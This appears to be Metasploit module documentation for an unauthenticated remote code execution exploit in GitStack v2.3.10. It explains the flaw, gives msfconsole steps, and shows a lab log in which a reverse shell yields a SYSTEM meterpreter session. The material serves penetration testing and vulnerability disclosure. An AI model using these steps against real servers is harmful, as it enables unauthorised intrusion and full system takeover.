 ## Description

This module exploits an unauthenticated remote code execution vulnerability on GitStack v2.3.10. The module will send unauthenticated REST API requests to put the application in a vulnerable state, if needed, before sending a request to trigger the exploit. These configuration changes are undone before the module exits.

## Vulnerable Application

In vulnerable versions of GitStack, a flaw in `Authentication.class.php` allows [unauthenticated remote code execution](https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html) since `$_SERVER['PHP_AUTH_PW']` is passed directly to an `exec` function.

To exploit the vulnerability, the repository web interface must be enabled, a repository must exist, and a user must have access to the repository.

Note: A passwd file should be created by GitStack for local user accounts. Default location: `C:\GitStack\data\passwdfile`.

## Verification Steps

- [ ] Install a vulnerable GitStack application
- [ ] `./msfconsole`
- [ ] `use exploit/windows/http/gitstack_rce`
- [ ] `set rhost <rhost>`
- [ ] `set verbose true`
- [ ] `run`

Note: You may have to run the exploit multiple times since the powershell that is generate has to be under a certain size.

## Scenarios

### GitStack v2.3.10 on Windows 7 SP1

```
msf5 > use exploit/windows/http/gitstack_rce
msf5 exploit(windows/http/gitstack_rce) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(windows/http/gitstack_rce) > set verbose true
verbose => true
msf5 exploit(windows/http/gitstack_rce) > run

[*] Started reverse TCP handler on 172.22.222.131:4444 
[*] Powershell command length: 6103
[-] Web interface is disabled
[-] No repositories found
[+] Web interface successfully enabled
[+] The repository has been successfully created
[+] Created user: ZROTE
[+] User ZROTE added to EsILm
[*] Sending stage (252483 bytes) to 172.22.222.122
[+] ZROTE removed from EsILm
[+] ZROTE has been deleted
[+] Web interface successfully disabled
[+] EsILm has been deleted

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V438RLMESAE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
